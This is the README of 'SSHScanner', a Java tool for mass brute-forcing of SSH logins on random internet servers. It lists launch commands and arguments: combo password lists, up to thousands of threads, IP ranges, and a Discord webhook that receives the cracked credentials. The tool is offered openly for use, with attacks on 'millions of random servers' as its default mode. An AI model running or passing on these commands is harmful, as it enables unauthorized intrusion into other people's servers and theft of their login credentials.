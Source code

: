## Description
This tool scans random SSH servers around the world and it tests the most used passwords

## Developers

You can reuse SSHScanner but make sure you comply with the [LICENSE](https://github.com/thisisnzed/SSHScanner/blob/main/LICENSE).

### Maven

```xml
<dependencies>
    <dependency>
        <groupId>com.thisisnzed</groupId>
        <artifactId>SSHScanner</artifactId>
        <version>1.1.0-SNAPSHOT</version>
    </dependency>
</dependencies>
```

## Lib

* **JSch** : http://www.jcraft.com/jsch/ 

## Usage

* I. Download the [latest release](https://github.com/thisisnzed/SSHScanner/releases) of SSHScanner
* II. Launch the program 

## Launch

*Here are some examples of commands according to your need*

- **Scan random SSH servers :** java -jar SSHScanner.jar -combo combo.txt -threads 1 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose true
- **Scan SSH range :** java -jar SSHScanner.jar -range range.txt -combo combo.txt -threads 3000 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose false
- **Scan specific SSH server :** java -jar SSHScanner.jar -combo combo.txt -threads 1 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose true -host "127.0.0.1"
- **Scan ports of specific SSH server (to get SSH port) :** java -jar SSHScanner.jar -combo combo.txt -timeout 1100 -webhook "https://discord.com/api/webhooks/x/y" -verbose true -host "127.0.0.1" -portlist ports.txt


## Arguments

Note: Each argument is optional

* **-combo <path>** | File containing all the "user:password" that the program will test for each host (default: combo.txt)
* **-threads <int>** | Number of threads launched (default: 1)
* **-port <int>** | Port that will be tested for each host (default: 22)
* **-timeout <int>** | Time (in ms) before the program marks a server as unavailable (default: 6000)
* **-webhook <url>** | Discord webhook where credentials will be sent (default: "")
* **-verbose <boolean>** | Whether or not to display failed attempts on the console (default: true)
* **-host <IP address>** | **WARNING: Only for bruteforce specific host** | Use this parameter ONLY if you want to perform a bruteforce attack on a specific SSH server - if you use this parameter you only will attack the requested server and not millions of random servers around the world (default: "")
* **-range <path>** | **WARNING: Only for bruteforce specifics ranges** | Use this parameter ONLY if you want to perform a bruteforce attack on specifics SSH servers (by putting ranges) - if you use this parameter you only will attack the requested ranges and not millions of random servers around the world (default: "")
* **-portlist <path>** | **WARNING: Only to get SSH port** | Use this parameter ONLY if you want to perform a bruteforce port attack on specific SSH server - if you use this parameter you only will attack the requested server (default: "")

